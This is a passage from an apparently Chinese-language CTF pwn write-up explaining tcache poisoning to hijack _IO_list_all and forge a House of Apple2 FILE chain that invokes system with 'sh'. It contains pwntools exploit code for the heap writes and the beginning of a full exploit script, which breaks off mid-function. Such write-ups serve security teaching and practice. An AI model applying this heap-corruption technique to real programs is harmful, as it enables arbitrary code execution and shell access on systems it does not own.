 下一次我们 add 的时候这些 smallbin 就会进入 tcache 了
### 写入 apple2 io 链
我们一个 heap 只能控制 0x80 的空间，但是我们写入一个 apple2 的链条至少需要 0xd8(vtable 的偏移)，那就伪造 tcache 的 fd 先指到该 0x80 区域，让下一个 tcache 沿着上一个 tcache 的结束空间续写，劫持最后一个 tcache 的 fd 到 io_list 就行(反正我们的 count 有三个)，此时就要顺便把 size 改了不然一会 free 的时候又回去了
```python
add(1, b"X"*0x10+p64(0) + p64(0x71) + p64((heap_base + 0x2d0 + 0x70)^((heap_base)>>12)))
free() # 修改第一个 tcache 的 fd 和 size

add(2, flat({
    0x0+0x10: b"  sh;",
    0x28+0x10: system,
    0x68: 0x71,
    0x70: _IO_list_all ^((heap_base)>>12),
}, filler=b"\x00"))
free() #在第一个 tcache 布置数据并修改第二个 tcache 的 fd 和 size

fake_file = heap_base + 0x2e0
add(2, flat({
    0xa0-0x60: fake_file-0x10,
    0xd0-0x60: fake_file+0x28-0x68,
    0xD8-0x60: libc_base + 0x2160C0, # jumptable
}, filler=b"\x00"))
free()  #在第二个 tcahe 布置最后的数据并劫持 fd 到 io_list

add(2, p64(fake_file)) #劫持 io_list
```

## 完整 wp
```python
from pwn import *

#context(os ='linux', arch ='mips', endian = "little", log_level ='debug')
context(os='linux', arch='amd64', log_level='debug')
# context(os ='linux', arch ='amd64')
context.terminal = ['tmux', 'sp', '-h']
      
rv = lambda x            : io.recv(x)
rl = lambda a=False      : io.recvline(a)
ru = lambda a,b=True     : io.recvuntil(a,b)
rn = lambda x            : io.recvn(x)
sd = lambda x            : io.send(x)
sl = lambda x            : io.sendline(x)
sa = lambda a,b          : io.sendafter(a,b)
sla = lambda a,b         : io.sendlineafter(a,b)
inter = lambda           : io.interactive()
tob = lambda x: str(x).encode()

file_name = "./run"
elf=ELF(file_name)
url = ""
port = 0
libc=ELF("/work/learn/io/black/lib/libc.so.6")
def debug(filename = file_name,b_slice=[],is_pie=0,is_start = 1):
    global io
    b_string = ""
    if is_pie:
        for i in b_slice:
            b_string += f"b *$rebase({i})\n"
        for i in range(1,26):
            b_string += f"c\n"  
            #17 伪造 ub    32apple
    else:
```